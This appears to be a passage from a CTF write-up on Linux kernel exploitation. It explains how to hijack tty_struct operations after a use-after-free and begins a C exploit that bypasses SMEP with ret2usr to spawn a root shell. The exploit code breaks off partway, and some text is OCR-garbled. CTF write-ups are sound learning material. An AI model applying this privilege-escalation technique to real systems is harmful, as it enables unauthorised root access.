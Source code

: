 ```c
    int (*resize)(struct tty_struct *tty, struct winsize *ws);
    int (*set_termiox)(struct tty_struct *tty, struct termiox *tnew);
    int (*get_icount)(struct tty_struct *tty,
                struct serial_icounter_struct *icount);
    int  (*get_serial)(struct tty_struct *tty, struct serial_struct *p);
    int  (*set_serial)(struct tty_struct *tty, struct serial_struct *p);
    void (*show_fdinfo)(struct tty_struct *tty, struct seq_file *m);
#ifdef CONFIG_CONSOLE_POLL
    int (*poll_init)(str
    
    uct tty_driver *driver, int line, char *options);
    int (*poll_get_char)(struct tty_driver *driver, int line);
    void (*poll_put_char)(struct tty_driver *driver, int line, char ch);
#endif
    int (*proc_show)(struct seq_file *, void *);
} __randomize_layout;
```

We can modify it and use options such as `write(tty)` or `close(tty)` to trigger our gadgets.
The attacking procedure would be like
```c 
// UAF a 0x2e0 kernel chunk
int fd = open("\dev\ptmx")
// ... Modify the tty_struct.ops to control the the tty_struct.ops->write
write(fd,buf,1)
```

The full exploit script could use the address got while debugging because there is no kaslr. But there is `SMEP`, my exploit script bypasss the `SMEP` and perform `ret2usr` to get the shell.
```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/ioctl.h>
#include <stdlib.h>
#include <sys/wait.h>
#include <sys/stat.h>
#include <stdint.h>
typedef unsigned int uint;

void panic(char *s)
{
    printf("[!] Panic:");
    puts(s);
    exit(1);
}
void shell(){
    if(!getuid())
    {
        system("/bin/sh");
    }
    else{
        puts("[!] NO ROOT");
    }
}
size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
```

[1]: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/kernel
[2]: https://github.com/n132/attachment
[3]: https://github.com/n132/attachment/tree/main/CISCN_2017
[4]: https://code.woboq.org/linux/linux/include/linux/tty.h.html#tty_struct
[5]: https://code.woboq.org/linux/linux/include/linux/tty_driver.h.html#tty_operations